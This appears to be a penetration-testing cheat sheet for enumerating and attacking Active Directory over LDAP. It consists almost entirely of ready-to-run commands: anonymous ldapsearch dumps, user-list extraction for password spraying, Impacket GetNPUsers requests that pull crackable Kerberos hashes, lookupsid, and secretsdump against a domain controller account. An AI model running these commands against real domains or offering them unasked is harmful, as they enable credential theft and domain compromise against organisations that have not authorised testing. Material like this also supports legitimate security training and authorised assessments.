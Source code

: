 # LDAP Enumeration Tools

**Note:** Be careful with brute forcing AD as you can disable user accounts due to the Account Lockout Policy. 

## ldapsearch

Simple authentication check:

```
$ ldapsearch -h <target_IP> -x
```

Anonymous Credential LDAP Dumping: 

```
$ ldapsearch -LLL -x -H ldap://<domain fqdn> -b ‘’ -s base ‘(objectclass=*)’
```

Getting DN:

```
$ ldapsearch -h <target_IP> -x -s base namingcontexts
```

- `-s` is scope: one of base, one, sub or children (search scope)

If you get DN from above command, use it in a base search (-b basedn: base dn for search)

```
$ ldapsearch -h <target_IP> -x -b "DC=<blah>,DC=<blah>"
```

You can also query the LDAP server:

```
$ ldapsearch -h <target_IP> -x -b "DC=<blah>,DC=<blah>" <query>
```

i.e. user enumeration:

```
$ ldapsearch -h <target_IP> -x -b "DC=<blah>,DC=<blah>" '(objectClass=Person)'
```

This will give a lot of useful information, i.e. when password was last reset, username of the account (sAMAccountName).

Filtering your query:

```
$ ldapsearch -h <target_IP> -x -b "DC=<blah>,DC=<blah>" '(objectClass=Person)' <filters>
```

I.e. to query for only account names:

```
$ ldapsearch -h <target_IP> -x -b "DC=<blah>,DC=<blah>" '(objectClass=Person)' sAMAccountName
```

Or use grep to get a list of account names for password spraying:

```
$ ldapsearch -h <target_IP> -x -b "DC=<blah>,DC=<blah>" '(objectClass=Person)' sAMAccountName | grep sAMAccountName | awk '{print $2}' > userlist.ldap
```

## Impacket

Using that username list generated from `ldapsearch`, we can use Impacket's `GetNPUsers.py` to see if we can get a user's TGT:

```
$ python3 GetNPUsers.py -dc-ip <target_IP> -request domain.local/ -userfile userlist.ldap -format john
```

or Impacket GetADUsers.py (Must have valid credentials)

```
$ GetADUsers.py -all <domain\User> -dc-ip <DC_IP>
```

You can simply change the -format flag to hashcat if you want to use hashcat. 

Or try with no password:

```
$ python3 GetNPUsers.py <domain/user> -request -no-pass -dc-ip <IP>
```

Impacket `lookupsid.py`:

```
$ /usr/share/doc/python3-impacket/examples/lookupsid.py username:password@x.x.x.x
```

Impacket Secretdump:

```
python3 secretdump.py 'breakme.local/Administrator@172.21.0.0' -just-dc-user anakin
```

## Windapsearch

Source: https://github.com/ropnop/windapsearch 

```
$ python3 windapsearch.py -d host.domain -u domain\\ldapbind -p PASSWORD -U
```

## References: 

- [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#most-common-paths-to-ad-compromise)
- [Attacking Active Directory: 0 to 0.9](https://zer1t0.gitlab.io/posts/attacking_ad/)